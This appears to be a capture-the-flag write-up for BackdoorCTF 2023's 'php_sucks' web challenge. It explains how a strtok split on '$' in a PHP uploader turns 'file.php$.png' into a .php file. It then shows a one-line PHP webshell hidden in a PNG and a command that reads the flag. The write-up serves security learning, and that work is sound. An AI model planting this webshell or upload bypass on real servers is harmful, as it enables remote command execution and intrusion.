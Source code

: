 ```yaml
---
title: "php_sucks"
description: "I hate PHP, and I know you hate PHP too. So, to irritate you, here is your PHP webapp. Go play with it"
pubDate: 2023-12-18
ctf: "BackdoorCTF 2023"
category: "web"
author: "sealldev"
section: "CTFs"
image: "images/23-backdoor/icon.png"
---
```


We are given some source code, and the website is a file uploader which takes a name and a file.

![Upload Page](images/23-backdoor/php_sucks_1.png)

Looking at the code in PHP a specific line catches my eye almost immediately.

```php
$fileName=strtok($fileName,chr(7841151584512418084));
```

The `chr(...)` aspect resolves to `$`, and the PHP function `strtok` splits a string at the deliminator, and takes the first half. 

Immediately an exploit is brewing... 

In theory if we uploaded a file with a JPEG/PNG MIME type and had the PHP code change the extension to a `.php`, we could have Command Injection!

I rename a PNG on my computer to `file.php$.png` to test my theory. 
The PHP code should split at the `$` and take the first half (`file.php`).

![Exploit Testing](images/23-backdoor/php_sucks_2.png)

It works!

Looking at our image restrictions (content type & file extension detection), I get a small PHP webshell (``<?=`$_GET[0]`?>``) and smuggle it inside my PNG file.

Once uploaded we send our payload to read the flag: `cat ../../ s0_7h15_15_7h3_fl496_y0u_ar3_54rch1n9_f0r.txt`

Flag: `flag{n0t_3v3ry_t1m3_y0u_w1ll_s33_nu11byt3_vuln3r4b1l1ty_0sdfdgh554fd}`

**Files:** [php_sucks.zip](https://web.archive.org/web/20231218155922/https://backdoor.infoseciitr.in/uploads?key=b24a1d922590a6c088559e5be72cccc839fda0ffd2210b13fd3913dfd186caa2%2Fphp_sucks.zip)